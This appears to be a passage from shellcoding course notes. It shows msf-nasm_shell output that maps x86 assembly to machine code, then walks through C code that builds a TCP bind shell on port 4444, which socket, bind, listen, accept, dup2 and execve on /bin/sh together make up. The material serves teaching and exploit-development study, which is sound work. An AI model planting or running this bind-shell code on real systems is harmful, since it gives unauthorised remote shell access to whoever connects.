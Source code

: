 #### For Example:
```console
beta@zed$ msf-nasm_shell 
# Put the hex value 0x2 into the al register
nasm > mov al, 0x2
00000000  B002              mov al,0x2
  - Here we see the Machine Code equivalent for `mov al, 0x2` is 0xB0, 0x02
  - This Assembly instruction is always this machiner- code for an intel-32 bit processor.
# Put the hex value 0x1 into the bl register
nasm > mov bl, 0x1
00000000  B301              mov bl,0x1
# Add the bl register to the al register, and save the result in register al
nasm > add al, bl
00000000  00D8              add al,bl
```

+ Assembly Language is dependant on the processor it is executing on, and the operating system.
+ For this course all Assembly will be written for Intel 32-bit Architecture, and the Linux Operating System.

# Mapping C Code to Assembly
To map out how I to write Assembly Code for a tcp bind-shell, first we will walk through creating a tcp `bind-shell` in C.  
+ C is the closest programming language to Assembly.

Once we figure out the required C functions, we then need to figure out how we can replace them with Linux `System-Calls`.  

## Required C Funtions & Execution Flow
1. Create a new Socket.  
```c
int ipv4Socket = socket(AF_INET, SOCK_STREAM, 0);
```
2. Create a TCP-IP Address for the Socket.  
```c
struct sockaddr_in ipSocketAddr = { 
  .sin_family = AF_INET,
  .sin_port = htons(4444),
  .sin_addr.s_addr = htonl(INADDR_ANY)
};
```
3. Bind the TCP-IP Address to the Socket.  
```c
bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
```
4. Listen for incoming connections on the TCP-IP Socket.  
```c
listen(ipv4Socket, 0);
```
5. Accept the incoming connections, on the TCP-IP Socket, and create a new connected session.  
```c
int clientSocket = accept(ipv4Socket, NULL, NULL);
```
6. Transfer Standard-Input, Standard-Output, and Standard-Error to the connected session.  
```c
dup2(clientSocket, 0); // STDIN
dup2(clientSocket, 1); // STDOUT
dup2(clientSocket, 2); // STDERR
```
7. Spawn a `/bin/sh` shell for the client, in the connected session.
```c
execve("/bin/sh", NULL, NULL);
```
